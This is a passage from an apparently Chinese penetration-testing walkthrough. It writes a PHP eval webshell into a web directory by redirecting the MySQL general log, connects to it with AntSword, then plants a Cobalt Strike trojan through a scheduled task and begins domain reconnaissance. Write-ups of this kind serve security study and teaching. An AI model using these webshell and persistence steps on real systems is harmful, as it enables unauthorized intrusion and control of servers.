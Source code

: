 ```
set global general_log_file='C:\\phpStudy\\WWW\\shell.php';
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjArdBTdFXbh9y5p7UMpZ43VEuFV6SmcYOV7XKRGfFnwvm1TwMQxNExQ/640?wx_fmt=png)

这里再写入一句话木马

```
select '<?php eval($_POST[cmd]);?>'
```

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pj3rjzMAZiaDxSyO31Nme6bPdNcWEVKj3gFhY7CZLBZeUoW7fOABPXu8A/640?wx_fmt=png)

然后再上蚁剑连接即可

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pj6xiaV5dUjeNxF2aQSaZ7Is1vR6LZFkSFWZjQc3oeibL3ZbOSwhvBMFIA/640?wx_fmt=png)

可以看到连接成功

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pj03xicAjZKbV55iaVAw44pXTLYh9CAC606pHHgd9e9d6V3fj23tq6lG8g/640?wx_fmt=png)

**0x04 内网信息搜集**

查看下系统的权限，一上来就是 administrator 权限就很舒服

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pjq3icFTxnKYCs9r5hfoVvU1tC723ssz7FpVuTqq0okovqydf1xIkPxng/640?wx_fmt=png)

`ipconfig /all`查看网络信息，域环境 + 双网卡

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjdVNSdIwb4yAguJicgqoVz7NurRzYYWfR2mxmbdXpBIbiaFuJG2TD9sHw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjuqF4iapMfXv4I4KJ1EgicRtCIr2SkwiacLibs2oZ44dc28TpVj146doictQ/640?wx_fmt=png)

`tasklist /svc`粗略看了一下，似乎是没有杀软的

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjBp1vRvFvFYc8SeBIKayyjPiassY6sgibT9aNYIClAQcxqJ8Zllw3C8Aw/640?wx_fmt=png)

想着没有杀软，那么直接用最简单粗暴的上 cs 更省心，上传一个 cs 生成的木马 exe 到目标主机上

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjyLCUmicoHdQYzdib6woWvFiaxynspQCX4QyqooADPGIrS448xhInkzrVA/640?wx_fmt=png)

用计划任务上线 cs

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1Pj2R17IvqBoUomiaRj8VCJyXAKVOh3cNvuJ4Zib88Wt9KRNkJKJeT9bpuA/640?wx_fmt=png)

成功上线

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjfL1MqkySNLRTwMXYBV4oFTmXPyEtlibwNE9QhKzX2ibCzG7MbTrwW12Q/640?wx_fmt=png)

**0x05 内网渗透**

**信息搜集**

`net view`查看域信息

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOeyOO6yNaVnvGAJrtsEp1PjbHuds58OUwlL4OsgK8drbOQR8PSq6iaWZyibJBV1gcIW7pw4ouOjIMDQ/640?wx_fmt=png)
